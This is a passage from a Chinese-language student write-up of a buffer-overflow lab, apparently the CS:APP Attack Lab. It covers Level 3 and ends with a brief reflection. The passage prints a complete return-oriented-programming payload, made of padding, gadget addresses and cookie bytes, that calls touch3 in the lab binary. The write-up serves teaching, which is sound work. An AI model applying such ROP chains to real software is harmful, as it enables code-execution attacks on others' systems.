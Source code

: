 ### Level 3
我们需要将 `rdi` 指向指向 `cookie` 字符串首地址，然后调用 `touch3`。

同样，字符串存放在栈中，那么怎么获取字符串的首地址呢？

我们发现有这样一个函数：
``` asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret  
```
作用是将 `rdi` + `rsi` 后赋值给 `rax`，所以我们用 `rdi` 保存 `rsp` 位置，然后用 `rsi` 保存偏移量，计算完成后 `rax` 保存着字符串首地址，最后再 `mov %rax, %rdi` 就行了。

所以我们的攻击字符串为：
``` txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 # popq %rax
20 00 00 00 00 00 00 00 # 偏移量
42 1a 40 00 00 00 00 00 # movl %eax,%edx
69 1a 40 00 00 00 00 00 # movl %edx,%ecx
27 1a 40 00 00 00 00 00 # movl %ecx,%esi
06 1a 40 00 00 00 00 00 # movq %rsp,%rax
c5 19 40 00 00 00 00 00 # movq %rax,%rdi
d6 19 40 00 00 00 00 00 # add_xy
c5 19 40 00 00 00 00 00 # movq %rax,%rdi
fa 18 40 00 00 00 00 00 # touch3地址
35 39 62 39 39 37 66 61 # 目标字符串
00 00 00 00 00 00 00 00 
```
指令的地址就不一一列出了，可以去 `rtarget.asm` 中寻找。中间因为很多指令没有办法一步到位，只能通过多次转移，需要有耐心的去寻找。
![](2022-4-9/2022-4-9_8.png)

## 实验总结
通过本次实验让我对函数的栈有了更清晰的理解，之前一直对函数栈懵懵懂懂的。与此同时，也了解了当代码写的有问题时会带来什么危害，我们应当尽力的避免这种情况的发生。当然，攻击有趣，但也不要做出危害他人，危害社会的事情。共勉！